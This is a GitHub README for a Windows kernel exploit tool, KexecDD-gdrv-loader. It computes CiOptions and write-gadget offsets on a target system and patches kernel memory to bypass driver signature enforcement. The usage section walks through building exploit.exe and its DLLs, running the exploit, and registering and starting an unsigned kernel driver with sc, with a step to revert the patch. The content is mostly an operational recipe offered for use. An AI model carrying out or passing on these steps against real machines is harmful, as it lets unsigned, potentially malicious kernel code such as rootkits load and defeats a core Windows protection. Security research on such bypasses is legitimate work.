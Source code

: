 # KexecDD-gdrv-loader
This is the same KExecDD exploit (https://github.com/floesen/KExecDD).

Rather than having to find the correct NTOSKRNL_WRITE_GADGET and CI_OPTIONS using a debugger for Kernel debugging on the target system, this comes together with a modified version of https://github.com/v1k1ngfr/gdrv-loader to calculate these offsets on the target system. A lot of the `gdrv-loader` code base is left untouched and not really needed.

Note: the stubs for `nt!FsRtlInitializeFileLock` and `ci!CiInitialize` might change in newer versions which might break the offset calculation.
This has been tested on a Windows 10 (Build 19045.4191).

This will cause bsod if ran on a system with Virtualization-based Security (VBS) (https://learn.microsoft.com/en-us/windows-hardware/design/device-experiences/oem-vbs) enabled.

## Usage

Compile the offsets project and execute the exe on the target system. Get the offsets returned and copied them into the `kexecdd/dllmain.c` and `kexecdd/dllmain_restore.c`:

```
offsets.exe

> Offset CiOptions: 000000000003A478

> Offset asm mov:   0000000000201852
```

Compile the `loader.c`, `dllmain.c` and `dllmain_restore.c` using the x64 Native Tools Command Prompt:

```
cl.exe /nologo /MT /Ox /W0 /GS- /DNDEBUG loader.c /link Advapi32.lib /OUT:exploit.exe /SUBSYSTEM:CONSOLE /MACHINE:x64
cl.exe /LD /nologo /MT /Ox /W0 /GS- /DNDEBUG dllmain.c /link /OUT:exploit.dll /SUBSYSTEM:CONSOLE /MACHINE:x64
cl.exe /LD /nologo /MT /Ox /W0 /GS- /DNDEBUG dllmain_restore.c /link /OUT:restore.dll /SUBSYSTEM:CONSOLE /MACHINE:x64
```

Create the unsigned driver service:

```
sc create unsigned type= kernel binPath= C:\path_to\unsigned.sys
```

Run the exploit:

```
exploit.exe
```

Load the unsigned driver:

```
sc start unsigned
```

Revert the kernel memory patch:

```
exploit.exe 6
```

## More information

Coming soon

